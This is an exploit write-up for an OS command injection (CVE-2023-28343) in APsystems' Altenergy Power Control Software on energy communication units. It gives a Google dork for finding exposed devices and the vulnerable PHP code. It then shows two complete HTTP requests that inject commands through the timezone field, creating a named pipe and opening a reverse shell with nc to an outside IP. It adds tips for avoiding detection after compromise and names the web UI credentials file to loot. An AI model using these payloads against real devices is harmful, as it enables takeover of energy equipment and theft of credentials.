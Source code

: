 ## title : OS command injection affects "Altenergy Power Control Software"
### SW ver: C1.2.5
### Vendor:  https://apsystems.com/
### CVE: CVE-2023-28343
### Google Dork: intitle:"Altenergy Power Control Software"
### Affected device: ENERGY COMMUNICATION UNIT
![Alt Text](https://www.ecodirect.com/v/vspfiles/photos/APSYSTEMS-YC500-ECU-2T.jpg)


## vulnerable code :

"/home/local_web/pagesapplication/models/management_model.php"

```php
   public function set_timezone()
    {
        $results = array();

        //ΦÄ╖σÅûΘí╡Θ¥óΘÇëµï⌐τÜäµù╢σî║
        $timezone = $this->input->post('timezone');
        if(strlen($timezone) == 0)
                $timezone = "Asia/Taipei";

        //Φ«╛τ╜«linuxτ│╗τ╗ƒµù╢σî║
        $cmd = "cp /usr/share/zoneinfo/$timezone /etc/localtime";
        system($cmd);

        //σ░åµù╢σî║Σ┐¥σ¡ÿσê░Θàìτ╜«µûçΣ╗╢
        $fp = @fopen("/etc/yuneng/timezone.conf",'w');
        if($fp){
            fwrite($fp, $timezone);
            fclose($fp);
        }

```

## Exploit : 


HTTP request : 
```
POST /index.php/management/set_timezone HTTP/1.1
Host: 78.218.230.32:8081
Content-Length: 33
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://78.218.230.32:8081
Referer: http://78.218.230.32:8081/index.php/management/datetime
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

timezone=`mknod /tmp/backpipe p `
```
HTTP request : 

```
POST /index.php/management/set_timezone HTTP/1.1
Host: 78.218.230.32:8081
Content-Length: 73
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://78.218.230.32:8081
Referer: http://78.218.230.32:8081/index.php/management/datetime
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

timezone=`/bin/sh 0</tmp/backpipe | nc 156.197.154.12 4444 1>/tmp/backpipe`

```
POC : 

![Alt Text](POC.png)

** note **
- please use the following command after getting shell to avoid distorying the WEBUI.  
"echo Asia/Taipei > /etc/yuneng/timezone.conf"  

## Important files to check :  
- /etc/yuneng/passwd.conf this file contains the credentials for the WebUI.  
